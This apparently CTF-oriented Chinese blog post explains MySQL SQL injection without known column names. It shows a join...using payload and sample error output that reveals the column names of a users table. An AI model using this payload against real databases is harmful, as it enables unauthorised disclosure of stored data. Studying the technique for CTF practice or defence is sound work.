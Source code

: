 ```yaml
---
title: "MySQL 无列名注入的几种方式"
date: 2022-08-29T12:35:10+08:00
lastmod: 2022-08-29T12:35:10+08:00
draft: false
author: "X1r0z"

tags: ['mysql','sqli','ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


总结一下无列名注入的几种方式



## join...using

利用条件: 能显示报错信息

payload 如下

```sql
select * from (select * from users a join users b)c;
```

原理是用 join 连接两张表时, 遇到重复的列名会报错, 并把这个报错的列名显示出来

```sql
mysql> select * from (select * from users a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from users a join users b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
mysql> select * from (select * from users a join users b using(id,username))c;
ERROR 1060 (42S21): Duplicate column name 'password'
```

通过 using 可以声明连接时的关联条件, 类似于平常写 inner join 时候的 `on a.id = b.id`, 这样就可以避免该字段重复而报错

这里设置别名的时候省略了 `as`, 完整的写法如下

```sql
select * from (select * from users as a join users as b) as c
```

join 在连接不同表时不需要别名, 因为两张表本身就不一样, 但是我们把 users 自身连接起来时需要设置别名以对两张表进行区分, 否则会报错 `ERROR 1066 (42000): Not unique table/alias: 'users'`
